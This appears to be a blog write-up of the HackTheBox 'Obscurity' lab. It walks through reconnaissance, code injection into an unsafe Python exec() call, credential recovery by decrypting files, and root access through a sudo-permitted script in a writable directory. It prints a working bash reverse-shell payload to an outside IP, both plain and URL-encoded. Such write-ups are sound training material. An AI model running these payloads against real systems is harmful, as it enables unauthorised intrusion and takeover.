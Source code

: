```yaml
---
layout: post
title: HackTheBox Obscurity (10.10.10.168) Writeup
description: >
  Hackthebox Obscurity Writeup
image: /assets/img/obscurity.png
noindex: false
---
```


**NMAP:**
```
# Nmap 7.80 scan initiated Fri May  8 23:17:40 2020 as: nmap -sC -sV -T4 -p- -oN fullNmap.txt
10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.022s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 08 May 2020 23:20:23
|     Server: BadHTTPServer
|     Last-Modified: Fri, 08 May 2020 23:20:23
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!--
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  8 23:19:18 2020 -- 1 IP address (1 host up) scanned in 98.25 seconds
```
Looking at the webpage on port 8080 I see that it mentions a file `SuperSecureServer.py`. I use ffuf to fuzz for the file.
```
 ./ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

develop                 [Status: 200, Size: 5892, Words: 1806, Lines: 171]
```
Navigating to `http://10.10.10.168:8080/develop/SuperSecureServer.py` I find the python file. Towards the bottom of the file there are these two lines 
```
 info = "output = 'Document: {}'" # Keep the output for later debug
 exec(info.format(path)) # This is how you do string formatting, right?
 ```
 The exec function is being used which can be exploited to execute a reverse shell. By sending a GET request to something like `https://10.10.10.168/rev';os.system("bash -c \'bash -i >& /dev/tcp/10.10.14.36/9999 0>&1\'");'` I can get a reverse shell. The only thing I had to do first was URL encode the the shell portion.
 ```
 root@pc1:~# curl http://10.10.10.168:8080/test%27%3Bos.system%28%22bash%20-c%20%5C%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.36%2F9999%200%3E%261%5C%27%22%29%3B%27
 ```
 With that I now have a shell as `www-data`. the `user.txt` file is located in `/home/robert` but I dont have permission to read it just yet. There are some other files in robert's home directory though.
 ```
 www-data@obscure:/home/robert$ ls
BetterSSH  out.txt               SuperSecureCrypt.py
check.txt  passwordreminder.txt  user.txt
```
Looking at each, `SuperSecureCrypt.py` looks like an encryption/decryption script, `out.txt` is the encrypted output of `check.txt` and `passwordreminder.txt` is another encrypted file which most likely contains a some kind of password. The key that was used for encrypting `check.txt` can be found with the following command
```
python3 SuperSecureCrypt.py -k "$(cat check.txt)" -i out.txt -o /tmp/key.txt -d
 ```
 With that I get a key of `alexandrovich`. I use that key to decrypt the contents of `passwordreminder.txt` and get `SecThruObsFTW`. Now with the credentials `robert;SecThruObsFTW` I can log in as robert and read the `user.txt` flag.
 ```
 robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```
Typing `sudo -l` to see if I can execute anything with sudo permissions gives me one option
```
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
Lucky for me BetterSSH is located in roberts home directory. Even though the file is owned by root and I cant modify it, I can modify the directory because of the way linux permissions work even if the directory is owned by root. So my privilege escalation will work like this. First rename the BetterSSH directory to a new name. Then create a new BetterSSH directory with a new `BetterSSH.py` file that executes a bash shell. Since I can execute the command as root it will give me a root shell.
```
robert@obscure:~$ mv BetterSSH/ BetterSSH2
robert@obscure:~$ mkdir BetterSSH
robert@obscure:~$ touch BetterSSH/BetterSSH.py
robert@obscure:~$ vim BetterSSH/BetterSSH.py
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
root@obscure:~# whoami
root
```
From here I can read the `root.txt` file.
```
root@obscure:/root# cat root.txt
512fd4429f33a113a44d5acde23609e3
```

